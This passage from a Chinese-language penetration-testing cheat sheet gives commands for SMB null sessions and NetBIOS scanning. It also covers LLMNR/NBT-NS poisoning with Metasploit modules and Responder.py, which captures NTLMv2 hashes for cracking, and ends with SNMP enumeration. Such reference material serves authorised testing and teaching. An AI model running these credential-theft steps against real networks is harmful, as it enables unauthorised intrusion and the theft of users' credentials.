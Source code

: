 ###### 手动测试空会话

```
Windows:
net use \\TARGET\IPC$ "" /u:""

Linux:
smbclient -L //192.168.99.131
```

###### NBTScan unixwiz

在Kali上安装使用：

```
apt-get install nbtscan-unixwiz 
nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
```

#### LLMNR / NBT-NS欺骗

从网络中窃取凭证

##### 使用Metasploit进行 LLMNR / NetBIOS请求

欺骗/毒化 LLMNR / NetBIOS请求：

```
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

抓取哈希

```
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

最后会得到NTLMv2 哈希，可以使用john或者hashcat破解。

##### Responder.py

你也可以选择使用 responder

```
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```

注：整个渗透测试过程可以一直允许Responder.py

#### SNMP枚举工具

SNMP枚举工具有很多。

美化SNMP输出结果使易于阅读。

```
apt-get install snmp-mibs-downloader download-mibs
echo "" > /etc/snmp/snmp.conf
```
